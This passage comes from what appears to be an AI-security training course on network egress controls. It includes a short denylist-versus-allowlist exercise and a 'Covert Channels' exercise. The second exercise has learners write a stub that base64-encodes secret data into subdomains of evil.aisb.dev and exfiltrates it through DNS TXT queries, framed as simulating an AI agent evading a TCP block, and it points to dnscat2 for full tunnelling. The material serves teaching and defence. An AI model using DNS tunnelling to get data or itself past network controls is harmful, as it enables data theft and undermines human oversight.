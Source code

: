 
#### Exercise 7.2 - Denylists vs Allowlists

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪
>
> You should spend up to ~10 minutes on this exercise.

<details><summary>So far, you've been using a denylist - listing IPs or domains that should be blocked. Think about the implications of this, and what switching to an allowlist might look like.</summary></details>


## 5️⃣ Covert Channels and Advanced Evasion

### Exercise 8: I don't need TCP

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪
>
> You should spend up to ~10 minutes on this exercise.


The previous exercise blocked our TCP connections. However, we can use UDP instead of TCP to exfiltrate data.
In practice, we can use the DNS protocol to hide our data in DNS requests, which are typically allowed through firewalls and not inspected by proxies.

We will be making simple static requests and getting static responses, but tools like (dnscat2)[https://www.kali.org/tools/dnscat2/] let you create a full-duplex communication channel over DNS, allowing you to send and receive arbitrary data.

Implement the `make_evil_request_dns` function that sends a DNS request to fetch TXT records from evil.aisb.dev

The code below belongs in the **`w1d2_answers_agent.py` file**.


```python

import dns.resolver as dns_resolver  # Alias to avoid conflict with mitmproxy.dns

resolver = dns_resolver.Resolver()
resolver.nameservers = ["127.0.0.1", "8.8.8.8", "1.1.1.1"]


def make_evil_request_dns(secret_data: str) -> Optional[str]:
    """
    Send a DNS request to evil.aisb.dev to exfiltrate secret data.

    This simulates an AI agent attempting to communicate using DNS queries.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the DNS query, or None if the request fails
    """
    # TODO: Implement the function to:
    #   1. Construct a domain like secret_data.evil.aisb.dev (remember to encode secret_data with base64.urlsafe_b64encode)
    #   2. Perform a DNS query for TXT records using resolver.resolve
    #   3. Return the first TXT record found, or None if no records are found
    pass
from w1d2_test import test_make_evil_request_dns
test_make_evil_request_dns(make_evil_request_dns, resolver)

# Set the exfiltration function for use in the exercise
```